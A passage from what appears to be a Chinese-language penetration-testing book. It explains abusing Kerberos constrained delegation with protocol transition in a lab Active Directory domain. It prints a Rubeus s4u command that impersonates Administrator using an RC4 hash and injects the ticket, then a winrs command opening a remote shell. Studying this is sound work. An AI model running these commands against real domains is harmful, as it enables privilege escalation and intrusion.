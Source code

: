 结果还将显示受限委托类型：

![图 5.36 – 枚举委托类型](img/B18964_05_36.jpg)

图 5.36 – 枚举委托类型

使用协议转换的受限委托可能会被滥用，通过以下命令：

```
Rubeus.exe s4u /msdsspn:CIFS/winterfell /impersonateuser:Administrator /domain:north.sevenkingdoms.local /user:jon.snow /rc4:B8D76E56E9DAC90539AFF05E3CCB1755 /altservice:HTTP /ptt
winrs -r:winterfell cmd.exe
```

结果可以在以下截图中看到：

![图 5.37 – 协议转换滥用的受限委托结果](img/B18964_05_37.jpg)

图 5.37 – 协议转换滥用的受限委托结果

需要特别说明的是，SPN 部分在请求中未加密，这就是为什么我们可以使用 Rubeus 中的`/altservice`选项来获取服务票证——在我们这个例子中，是 WinRM。

注意

可用服务的详细列表可以在这里找到：[`book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#available-services`](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket#available-services)。

HTTP 服务配置时未进行协议转换，如下图所示：

![图 5.38 – 配置了无协议转换的受限委托](img/B18964_05_38.jpg)
